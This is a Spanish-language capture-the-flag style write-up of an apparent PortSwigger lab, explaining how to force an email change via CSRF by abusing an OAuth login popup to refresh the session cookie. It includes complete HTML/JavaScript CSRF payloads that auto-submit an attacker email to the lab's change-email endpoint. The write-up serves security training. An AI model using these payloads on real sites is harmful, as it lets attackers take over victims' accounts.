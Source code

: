 `TAREA:` La función de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Para solucionar este problema, realice un ataque CSRF que cambie la dirección de correo electrónico de la víctima. Debe usar el servidor de exploits proporcionado para alojar el ataque.

El laboratorio admite el inicio de sesión con OAuth. Puede iniciar sesión a través de su cuenta de redes sociales con las siguientes credenciales: `wiener:peter`

`NOTA:` - Los navegadores impiden que se abran las ventanas emergentes a menos que se activen mediante una interacción manual del usuario, como un clic. El usuario víctima hará clic en cualquier página a la que lo redirija, por lo que puede crear ventanas emergentes mediante un controlador de eventos global como se indica a continuación

```python
<script> 
	window.onclick = () => { 
		window.open('about:blank') 
	} 
</script>
```

iniciamos sesión en la web y de inmediato nos damos cuenta que nos esta haciendo una redirección hacia endpoints diferentes tenemos un botón de continuar que probablemente necesite una cookie. en este caso la de sesión
![[Pasted image 20250722103219.png]]

luego tenemos otro botón de continuar que probablemente contenga otra cookie. aquí lo esencial seria analizar ambas solicitudes e identificar si la cookie es diferente
![[Pasted image 20250722103359.png]]

realizamos una solicitud de cambio de correo y la interceptamos para enviarla al repeater 
![[Pasted image 20250722103605.png]]

cuando estamos en el repeater iniciamos un CSRF-POC
![[Pasted image 20250722103807.png]]

en este caso el history.pushState no lo necesitamos ya que esta vulnerabilidad por lógica del laboratorio se modifica para que sea una solicitud mas automatizada donde la victima debe hacer clic. pero en este caso debemos generar una ventana emergente con el código que nos proporcionaron. nos quedaría algo como esto:

```python
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a49006d035448148083fd090057002b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script> 
	window.onclick = () => { 
		window.open('about:blank') 
	} 
</script>
  </body>
</html>
```

`NOTA:` recuerda cambiar el correo ya que no puede ser el mismo correo del ataque al que ya esta registrado en la cuenta.

###### OPCIÓN 2
puedes usar este código que que esta proporcionado por el laboratorio si no cuentas con burpsuite profecional.

```python
`<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> 
	<input type="hidden" name="email" value="pwned@portswigger.net"> 
</form> <p>Click anywhere on the page</p> <script> window.onclick = () => { window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login'); setTimeout(changeEmail, 5000); } function changeEmail() { document.forms[0].submit(); } </script>`
```